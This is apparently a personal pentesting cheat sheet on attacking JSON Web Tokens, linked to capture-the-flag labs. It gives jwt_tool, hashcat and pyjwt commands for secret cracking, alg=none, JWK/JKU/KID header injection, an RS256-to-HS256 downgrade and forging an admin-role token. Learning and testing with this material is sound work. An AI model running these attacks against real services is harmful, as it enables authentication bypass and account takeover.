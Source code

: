 # JSON Web Token (JWT)

[![hacking_jwt](../../../../_badges/hacktricks/hacking_jwt.svg)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
[![json_web_token](../../../../_badges/poat/json_web_token.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)

<div class="row row-cols-lg-2"><div>

JSON Web Token (JWT) are used to represent signed data. They are commonly used in for authentication and authorization.

The format is: `<algo>.<data>.<signature>`. Each part is base64 encoded, so the final string is URL-safe while it can be easily decoded.

The data is signed using a secret key. If the secret key is compromised, everyone can sign messages 🔏.

The signature is used to detect if data was tampered with.
</div><div>

They can be transferred and found in:

* 📚 Headers (`Authorization: Bearer <JWT>`)
* 🍪 Cookies
* 📄 URL Parameters
* 💼 Request Body
* ...

📚 A common handy wordlist is [jwt-secrets](https://github.com/wallarm/jwt-secrets).
</div></div>

<hr class="sep-both">

## Common JWT Attacks

<div class="row row-cols-lg-2"><div>

You can use [jwt-tools](https://github.com/ticarpi/jwt_tool) <small>(4.8k ⭐)</small> to attack JWT:

```shell!
$ git clone https://github.com/ticarpi/jwt_tool.git $HOME/tools/jwt_tool
$ chmod +x $HOME/tools/jwt_tool/jwt_tool.py
$ ln -s $HOME/tools/jwt_tool/jwt_tool.py $HOME/.local/bin/jwt_tool
$ jwt_tool -h
```

```ps
$ jwt_tool 'jwt'             # decode
$ jwt_tool 'jwt' -T          # encode
$ jwt_tool 'jwt' -I -pc claim -pv value
```

You can also use [jwt.io](https://jwt.io/).

<br>

#### Secret Key Brute Forcing

[![jwt_weak_secret](../../../../_badges/rootme/web_server/jwt_weak_secret.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret)

The secret key may be weak and brute forced:

```ps
$ jwt_tool 'jwt' -T -p "key" # use secret key
$ jwt_tool 'jwt' -C -d ./jwt.secrets.list # crack key
```

```ps
$ hashcat -m 16500 hash ./jwt.secrets.list
```

<br>

#### JWT Header Injection — None Algorithm

[![jwt_introduction](../../../../_badges/rootme/web_server/jwt_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction)

We may be able to disable the tampering check by setting the signature algorithm to 'none.'

```ps
$ jwt_tool 'jwt' -T -X a     # attack 'algo=none'
```

📚 It also possible for the signature to not be checked at all by the server after issuing a JWT even if there is an algorithm.

<br>

#### JWT Header Injection — JWK

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)

An application may use the `jwk` header to represent the RSA key used to sign the data. We may be able to inject our own RSA key.

```ps
$ jwt_tool 'jwt' -T -X i     # attack 'jwk header injection'
$ jwt_tool 'jwt' -T -X i -hc kid -hv jwt_tool     # with kid
```
</div><div>

#### JWT Header Injection — JKU

[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)

The `jku` header contains a URL or a filename used to fetch a key.

* When a asymmetric algorithm such as RS is used:

```shell!
$ cat $HOME/.jwt_tool/jwttool_custom_jwks.json # upload to URL as jwks.json
$ jwt_tool -X s -ju "URL/jwks.json" -I -hc kid -hv jwt_tool -pc claim -pv value
```

📚 You may check: `/jwks.json`, `/.well-known/jwks.json`, etc. Refer to [SSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md) for insight <small>(filtering, attacks, etc.)</small> and setting up a [grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md).

<br>

#### JWT Header Injection — KID

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)
[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)
[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)
[![jwt_unsecure_file_signature](../../../../_badges/rootme/web_server/jwt_unsecure_file_signature.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-File-Signature)

The kid header may be present in two scenarios. The first one is to define which key file contains the secret. The second usage is to determines which of the keys in the `jku` we should use.

```shell!
$ # The file "/dev/null" is empty so -p is ""
$ jwt_tool "" -I -hc kid -hv "/dev/null" -S hs512 -p "" -pc claim -pv value
```

➡️ Refer to [Path Traversal](/cybersecurity/red-team/s3.exploitation/vulns/web/path_traversal.md) and my [cheatsheet](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md) for more notes.

<br>

#### JWT Header Injection — RS256 to HS256

[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)

When using RS256 algorithm, JWT uses the private key to sign the JWK and the public key to verify integrity. We may be able to perform a downgrade attack to HS256 and only use a public key for both.

```ps
$ jwt_tool 'jwt' -S hs256 -k public.key -T
```

You can compute the public key if you have two messages:

```ps
$ docker run -it ttervoort/jws2pubkey "JWT1" "JWT2"
```
</div></div>

<hr class="sep-both">

## Python JWT

<div class="row row-cols-lg-2"><div>

The [pyjwt](https://github.com/jpadilla/pyjwt) <small>(5.0k ⭐)</small> library can be used to manipulate JWT in Python. There are two unmaintained alternatives which are:

* [python-jwt by GehirnInc](https://github.com/GehirnInc/python-jwt) <small>(0.1k ⭐, 2022 🪦)</small>
* [python-jwt by D. Halls](https://github.com/davedoesdev/python-jwt) <small>(0.2k ⭐, 2023 🪦)</small> — has two CVEs

```py
headers = {
    'kid': '/dev/null'
}
payload = {
    'role': 'admin',
    'iat': int(datetime.datetime.now(datetime.UTC).timestamp())
}
```
</div><div>

To install it:

```shell!
$ pip install pyjwt
```

To generate a JWT:

```py
import jwt
token = jwt.encode(payload, '', algorithm='HS512', headers=headers)
```

To decode a JWT:

```py
import jwt
payload = jwt.decode(token, '', algorithms=['HS512'])
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [PortSwigger JWT](https://portswigger.net/web-security/jwt)
* [jwtcrack/jwt2john](https://github.com/Sjord/jwtcrack)
</div><div>
</div></div>